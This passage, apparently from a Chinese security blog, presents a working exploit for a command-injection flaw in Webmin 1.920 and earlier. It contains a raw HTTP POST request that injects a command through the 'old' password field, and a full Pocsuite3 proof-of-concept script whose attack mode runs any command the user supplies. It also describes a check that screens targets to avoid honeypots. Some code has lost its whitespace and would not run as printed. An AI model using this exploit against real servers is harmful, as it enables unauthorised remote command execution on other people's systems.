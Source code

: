   
其中old后面接的就是本地所执行的命令。  
```
POST /password_change.cgiHTTP/1.1Host: 192.168.34.132:10000Cookie: redirect=1; testing=1Content-Length: 44Cache-Control: max-age=0Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"Sec-Ch-Ua-Mobile: ?0Sec-Ch-Ua-Platform: "Windows"Origin: https://192.168.34.132:10000Content-Type: application/x-www-form-urlencodedUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Sec-Fetch-Site: same-originSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentReferer: https://192.168.34.132:10000/session_login.cgiAccept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Priority: u=0, iConnection: keep-aliveuser=12&&old=whoami&new1=1111&new2=1111
```  
  
poc请求执行效果如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/AyVFGmKalNwrrP6ib8V76Ij0gOZ43NTfLzAy3zgYBRlJNaSaGUiciaExJlEw2SdWicZebmoFPI9wa6pzvc9oQic1Qog/640?wx_fmt=png&from=appmsg "null")  
  
## Pocsuite3的poc脚本如下：  
```
from pocsuite3.api import (    minimum_version_required, POCBase, register_poc, requests, logger,    OptString, OrderedDict,    random_str,    get_listener_ip, get_listener_port, REVERSE_PAYLOAD)import reclassDemoPOC(POCBase):    vulID = 's01'# Seebug 漏洞收录 ID，如果没有则为 0    version = '1'# PoC 的版本，默认为 1    author = 'skyx'# PoC 的作者    name = 'webmin命令执行'# PoC 名称，建议命令方式：<厂商> <组件> <版本> <漏洞类型> <cve编号>    appName = 'Webmin'# 漏洞应用名称    appVersion = '<=1.920'# 漏洞影响版本    vulType = 'Code Execution'# 漏洞类型，参见漏洞类型规范表    desc = 'webmin<=1.920版本存在命令执行'# 漏洞简要描述    pocDesc = ''' 先使用verify模式直接运行验证漏洞是否存在，再attack模式使用--cmd 参数可以达到任意命令执行的效果  '''    def_exploit(self, param=''):        ifnotself._check(dork='<title>Login to Webmin</title>'):            #只对网站返回包中包含<title>Login to Webmin</title>的站点进行poc测试            returnFalse        headers = {            'Content-Type': 'application/x-www-form-urlencoded',            'Referer': f'{self.url}/session_login.cgi'        }        # 构造payload        payload = f'user=rootxx&pam=&expired=2&old=test|{param}&new1=test2&new2=test2'        # 发送post请求，在对应路径发送payload拿到响应包        res = requests.post(f'{self.url}/password_change.cgi', headers=headers, data=payload)        logger.debug(res.text)        return res.text.split('The current password is incorrect')[-1].split('</h3></center>')[0]    def_verify(self):        result = {}        flag = random_str(6)        param = f'echo {flag}'        res = self._exploit(param)        if res and flag in res:            result['VerifyInfo'] = {}            result['VerifyInfo']['URL'] = self.url            result['VerifyInfo']['Postdata'] = f'user=rootxx&pam=&expired=2&old=test|{param}&new1=test2&new2=test2'        returnself.parse_output(result)    # 定义额外的命令行参数，用于 attack 模式    def_options(self):        o = OrderedDict() #于生成并返回一个包含选项的有序字典（OrderedDict）        o['cmd'] = OptString('uname -a', description='需要执行的命令',require=True)        return o    def_attack(self):        result={}        value=self._exploit(self.get_option('cmd'))        if value:            result['ShellInfo']={}            result['ShellInfo']['URL']=self.url            result['ShellInfo']['Content']=value #将命令执行结果输出        returnself.parse_output(result)register_poc(DemoPOC)
```  
### self.__check方法的介绍：  
  
self._check() 方法会进行端口开放检查、http/https 协议自动纠正，首页关键词 check，关键词蜜罐检查等功能。可以一定程度避免将 Payload 发送到蜜罐，减少误报。  
```
 if not self._check(dork='<title>Login to Webmin</title>'):            #只对网站返回包中包含<title>Login to Webmin</title>的站点进行poc测试            return False
```  
  